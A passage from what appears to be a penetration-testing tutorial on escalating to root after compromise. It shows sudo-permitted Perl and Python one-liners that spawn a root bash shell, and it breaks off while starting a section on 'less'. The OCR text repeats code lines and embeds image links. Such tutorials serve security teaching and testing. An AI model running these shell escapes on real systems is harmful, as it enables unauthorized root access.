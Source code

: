 1

sudo  \-l

Now you can observe the highlighted text is showing that the user raaz can run Perl language program or script as root user. Therefore we got root access by executing Perl one-liner.  

sudo perl -e 'exec "/bin/bash";' id

1

2

sudo perl  \-e  'exec "/bin/bash";'

id

**![](https://i1.wp.com/1.bp.blogspot.com/-I1TaJ-ZVUbw/WwZTUtk6LXI/AAAAAAAAXAs/5Zl9NdRrDwkIxg1fsJHpkRHySvDT6GZkwCLcBGAs/s1600/13.png?w=687)**  

### **Spawn shell using Python**

After compromising the target system and then move for privilege escalation phase as done above and execute the below command to view the sudo user list.  

sudo -l

1

sudo  \-l

At this point, you can perceive the highlighted text is indicating that the user raaz can run Python language program or script as root user. Thus we acquired root access by executing Python one-liner.  

sudo python -c 'import pty;pty.spawn("/bin/bash")' id

1

2

sudo python  \-c  'import pty;pty.spawn("/bin/bash")'

id

![](https://i0.wp.com/3.bp.blogspot.com/-ybEFrJq8PR0/WwZTUT_VSTI/AAAAAAAAXAo/hs0x2CTUL0kGd4VXdEreic4Ea0ovg_AwgCLcBGAs/s1600/14.png?w=687)  

### **Spawn shell using Less Command**

For the privilege, escalation phase executes below command to view the sudo user list.  

sudo -l

1

sudo  \-l

![](https://i0.wp.com/4.bp.blogspot.com/-pwLd4I0nS78/WwZTUlPjQwI/AAAAAAAAXAw/Gok_4ZpheUoN2lJ961XyyPixI3bfzaHGwCLcBGAs/s1600/16.png?w=687)  
Here you can observe the highlighted text which is indicating that the user raaz can run less command as root user. Hence we obtained root access by executing the following.  
